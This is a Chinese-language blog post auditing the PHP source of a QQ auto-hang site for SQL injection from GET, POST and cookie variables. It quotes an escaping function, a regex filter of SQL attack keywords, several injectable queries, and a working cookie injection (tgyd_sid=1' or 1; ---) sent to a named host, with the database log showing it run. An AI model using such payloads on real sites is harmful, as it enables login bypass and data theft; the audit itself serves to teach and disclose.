

翻网盘的时候翻到了一堆 `代挂网站源码` ，大概是以前和别人合作的时候别人给的参考网站，现在对其中部分代码进行一次简单的代码审计，本次主要审计外部变量造成的SQL注入，运行环境版本为 `PHP5`
<!-- more -->
程序代码给出下载：

[天高云淡V2免授权版1.20.7z](simple-code-audit/天高云淡V2免授权版1.20.7z)

## PHP的外部变量

| 变量名 | 说明 |
|-------|------|
| $_SERVER | 记录服务器信息 |
| $_POST | 记录请求表单 |
| $_GET | 记录请求GET参数|
| $_COOKIE | 记录请求的Cookies|

## 代码审计 

一般来说，对于源代码中的外部变量遵循一个铁则：

> 永远不要相信用户的输入

本次利用 `NotePad++` 对代码进行搜索并分析上下文来确定是否包含SQL注入。

*搜索变量*



## 审计过程

一般来说，比较简单的PHP网站，一个PHP文件一个页面，没有使用框架，就基本上不会对外部变量进行过滤，从代码来看，代码的作者至少有3位：

**转义函数**

```php
function safestr($str){
	if(!get_magic_quotes_gpc()){
		return addslashes($str);
	}else{
		return $str;
	}
}
```

### 说明

`addslashes`() 函数返回在预定义字符之前添加反斜杠的字符串。

预定义字符是：
- 单引号（'）
- 双引号（"）
- 反斜杠（\）
- NULL

默认地，PHP 对所有的 GET、POST 和 COOKIE 数据自动运行 addslashes()。所以您不应对已转义过的字符串使用 `addslashes`()，因为这样会导致双层转义。遇到这种情况时可以使用函数 get_magic_quotes_gpc() 进行检测。

可以看到这里对输入的字符串进行一次过滤，使用的地方如：

> /find.php:1~6
```php
<?php
require_once('includes/common.php');
if($_POST['do']=='find'){
	session_start();
	$user=safestr($_POST['user']);
	$aqanswer=safestr($_POST['aqanswer']);
```

但是也有未使用的地方（此管理目录，虽然有注入点，但是需要管理员权限才可运行）：

> /admin/addfz.php:13~15
```php
$d_qq = $_POST['d_qq'];
$d_user_name = $_POST['d_user_name'];
$d_user_pwd = $_POST['d_user_pwd'];
```

**安全检测**

此份代码里包含了安全检测部分，检测输入变量是否包含恶意字符：

> /includes/360_safe3.php

*部分代码*

```php
...
$getfilter="'|(and|or)\\b.+?(>|<|=|in|like)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
$postfilter="\\b(and|or)\\b.{1,6}?(=|>|<|\\bin\\b|\\blike\\b)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
$cookiefilter="\\b(and|or)\\b.{1,6}?(=|>|<|\\bin\\b|\\blike\\b)|\\/\\*.+?\\*\\/|<\\s*script\\b|\\bEXEC\\b|UNION.+?SELECT|UPDATE.+?SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE).+?FROM|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)";
...
foreach($_GET as $key=>$value){ 
	StopAttack($key,$value,$getfilter);
}
foreach($_POST as $key=>$value){ 
	StopAttack($key,$value,$postfilter);
}
foreach($_COOKIE as $key=>$value){ 
	StopAttack($key,$value,$cookiefilter);
}
```

## 审计结果

从代码静态审计来看，注入点比较多，例如：

> /mgmt/qd.php:17 注入参数： POST:uin
```php
$qq=$_POST['uin'];
...
if (!$qqrow=$db->get_row("select * from {$prefix}qqs where qq='$qq' and uid='$userrow[uid]' limit 1")) {
```

### 可用注入

>/includes/common.php:77 注入参数：COOKIE:tgyd_sid **可用**
```php

$cookiesid = $_COOKIE['tgyd_sid'];

if ($cookiesid && $userrow = $db->get_row("select * from {$prefix}users where sid ='$cookiesid' limit 1")) {

    C('loginuser', $userrow['user']);

    C('loginuid', $userrow['uid']);

} 
```

### POST 实列

```
GET http://qq.atd3.org/includes/common.php HTTP/1.1
Host: qq.atd3.org
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie:tgyd_sid=1' or 1%3B --- 
X-Forwarded-For: 222.222.112.1

```

### 注入日志

```
180718 12:32:12	   16 Connect	root@localhost on 
		   16 Init DB	qq_tgyd
		   16 Query	set names utf8
		   16 Query	select * from tgyd_separate where urls='qq.atd3.org' limit 1
		   16 Query	select * from tgyd_webconfigs
		   16 Query	select * from tgyd_users where sid ='1' or 1; ---' limit 1
		   16 Quit	
```